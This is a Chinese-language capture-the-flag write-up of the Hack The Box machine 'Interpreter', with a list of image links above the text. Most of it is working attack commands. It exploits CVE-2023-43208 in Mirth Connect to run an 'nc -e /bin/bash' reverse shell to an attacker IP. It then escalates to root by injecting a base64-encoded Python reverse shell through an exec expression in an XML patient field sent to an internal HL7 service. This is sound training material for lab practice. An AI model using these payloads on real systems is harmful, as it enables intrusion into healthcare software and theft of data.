









# HTB Season 10 - Interpreter

## 信息收集

### 端口扫描

```shell
nmap -p- --min-rate 5000 10.129.2.29
nmap -p 22,80,443,6661 10.129.2.29
```



### 目录扫描

```shell
dirsearch -u https://10.129.2.29
```

发现存在api目录



### 访问网站

访问 https://10.129.2.29/api



该网站使用 NextGen Mirth Connect 版本为4.4.0 该版本存在历史CVE-2023-43208漏洞

### 漏洞利用

项目地址 : https://github.com/jakabakos/CVE-2023-43208-mirth-connect-rce-poc

```shell
nc -lvvp 4444
python CVE-2023-43208.py -u https://10.129.2.29:443 -c "nc -e /bin/bash 10.10.16.7 4444"
```




### 普通用户sedric

在conf配置文件目录中存在mysql数据库的配置文件

其中包含mysql数据库的用户名和密码


数据库中存在用户sedric的密码



破解无果

### root

查看本地端口

```shell
ss -tulpn
```



6661为外部tcp端口并为mirth为同一进程,结合mirth通信特性
可以推测服务器通过6661监听HL7消息
54321为内部端口推测为内部接受6661转发的HL7消息

#### exploit

构造反弹shell

```shell
echo 'import socket,os,pty;s=socket.socket();s.connect(("10.10.16.7",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' | base64
```

构造恶意xml执行反弹shell

```shell
python3 - << 'EOF'
import http.client
xml = """<patient>
  <timestamp>20250101120000</timestamp>
  <sender_app>TEST</sender_app>
  <id>12345</id>
  <firstname>{exec(__import__("base64").b64decode("aW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTYuNyIsOTAwMSkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikK").decode())}</firstname>
  <lastname>Doe</lastname>
  <birth_date>01/01/1990</birth_date>
  <gender>M</gender>
</patient>"""
conn = http.client.HTTPConnection("127.0.0.1", 54321)
conn.request("POST", "/addPatient", body=xml, headers={"Content-Type":"application/xml"})
resp = conn.getresponse()
print(resp.status, resp.reason)
print(resp.read().decode())
EOF
```



查看user和root的flag


